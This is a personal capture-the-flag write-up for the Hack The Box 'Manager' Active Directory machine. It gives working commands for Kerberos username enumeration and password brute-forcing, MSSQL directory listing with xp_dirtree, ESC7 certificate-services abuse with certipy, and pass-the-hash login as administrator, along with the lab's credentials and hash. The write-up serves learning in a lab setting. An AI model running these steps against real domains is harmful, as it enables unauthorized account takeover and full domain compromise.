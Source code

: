 # Manager -htb(Compi)(my first AD box)


nmap:

	80,88,135,139,389,445,464,593,636,1433.3268.3269

This is my first AD windows machine , idk shit.

Tools im gonna use to enumerate for usernames :

	Kerbrute.

`./kerbrute_linux_amd64 userenum --dc 10.10.11.236 -d manager.htb /home/kali/Desktop/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`

that gave us usernames , its a start.

```
2023/10/22 15:13:03 >  [+] VALID USERNAME:       ryan@manager.htb
2023/10/22 15:13:10 >  [+] VALID USERNAME:       guest@manager.htb
2023/10/22 15:13:13 >  [+] VALID USERNAME:       cheng@manager.htb
2023/10/22 15:13:16 >  [+] VALID USERNAME:       raven@manager.htb
2023/10/22 15:13:33 >  [+] VALID USERNAME:       administrator@manager.htb
2023/10/22 15:14:11 >  [+] VALID USERNAME:       Ryan@manager.htb
2023/10/22 15:14:16 >  [+] VALID USERNAME:       Raven@manager.htb
2023/10/22 15:14:34 >  [+] VALID USERNAME:       operator@manager.htb
```

`./kerbrute_linux_amd64 bruteuser --dc 10.10.11.236 -d manager.htb /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt Operator -v`

Using the command above, 
found password for Operator user : `operator`

---

Using operator user to logon port 1433 which is MSSQL server:
`impacket-mssqlclient -p 1433 -windows-auth -dc-ip 10.10.11.236 "manager.htb/Operator:operator"@10.10.11.236`


inside MSSQL use these commands to traverse:
	To list databases, you can use the following SQL command:
		`SELECT name FROM sys.databases;`

To switch to that database use:
	`Use databasename`

To list tables in that database:
	`SELECT table_name FROM information_schema.tables;`

To access particular table in a database:
	`SELECT * FROM tablename;`




****Important****:

	so i was stuck in at mssqlclinet , when i type help there should be more options but i got only 5, so i had to reinstall python3 immpacket to work.


Holy shit dude , I was lost for so long in this part xp_dirtree that I got tunnel visioned .
I was only giving concern with what xp_dirtree initally outputted. When I typed xp_dirtree in the mssql client it showed 7 directories and i was searching them over and over again .
I found a .xml file but I couldn't find out what to do. chat gpt and google didnt help because I was asking the wrong questions.

What I did now to fix it,  was:

	There was a IIS website running.
	So it was hosted from someplace, a directory. The sites files are stored there.
	This is where xp_dirtree shines. This command is notorious for traversing directories and listing out files. so what did i do ?.

searched google for IIS website root location , found it:
		`xp_dirtree C:\inetpub\wwwroot`
boom I found the backup of the files in zip.

Downloaded the zip with curl

`sudo curl http://manager.htb/website-backup-27-07-23-old.zip --output website-backup-27-07-23-old.zip`

explored the zip and found user "Raven 's"  password, along with other information.

****don't worry every now and then we get tunnel visioned while hacking. Always think big and out of the box , literally. and dont think hard too much , because in the end , things always turn out to be quite simple.***


----
##### Raven creds:

```
raven@manager.htb
R4v3nBe5tD3veloP3r!123

```

After searching for shits , i found that we need to use this in WinRM:
	Using Evil Win rm we can access the raven windows machine and get the user flag.

	```
	evil-winrm - u raven -i 10.10.11.236
	then password prompt will appear

-----


## ***PRIV ESC***

Figured out this was a AD CS attack, after getting all the hints and also since this is a Windows AD machine, it was bound to have some sort of certificate abuse.


Steps to priv esc:

	Go sudo and download certipy-ad by oliver lyak. pip3 install certipy.

  then using raven creds type this:
  
		  `certipy find -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -vulnerable -enabled
    
This will let you know which type of Certificate template you are vulnerable from. In my case this was `ESC7` certificate template. A certificate template signifies a blueprint for creating digital certificates with specific characteristics and purposes. So there are several misconfigurations during the creation of these templates.

Now the next step is , since we know what our template is , we should directly google it and go to hacktricks. A great article with how to perfectly abuse this template is laid out. Just follow and get root.

 https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7

Do attack vector 2.

This article also helped in explain the whys and hows and whats.
	https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/#resources

Basically we will impersonate a Higher level user through the misconfigured certificates in the AD machine. These are time sensivite so copy-paste fast.


	1	certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

	2    certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

	3    certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb

You will get error but still it will ask you to save private key, just enter yes. 
Note down the `request id` : 14

	 4    certipy ca -ca 'manager-DC01-CA' -issue-request 14 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

Till this point, all the commands were time sensitive, meaning you had to enter them fast 1 after another.
If you get access denied , that means you have to enter those previous 3 commands faster.
Just copy paste .

Now we issue the cert/private key and then use that key hash and login with `Evil winRM`.

	5    certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 14

Once we have the certificate, we can use the cert to obtain the cred hash and kerberos ticket of the target DA account using the Certipy `auth` command as shown below:
	
	certipy auth -pfx administrator.pfx


**ERROR** fix :
	If you find this **error** from Linux: `**Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)**` it because of your local time, you need to synchronise the host with the DC. There are a few options

		sudo timedatectl set-ntp 0  - dont use this.
		sudo rdate -n [Machine IP] - using this worked.

after this :

	certipy auth -pfx administrator.pfx
	This generated administrator hash which we will use to login with evil winrm:
	hash : `aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`
	

---

EVIL WIN RM :
---
	LOGIN with and get ROOT FLAG EZ PZ:

`evil-winrm -i 10.10.11.236 -u administrator -p aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`



This was my first Active directory machine and it was fun.
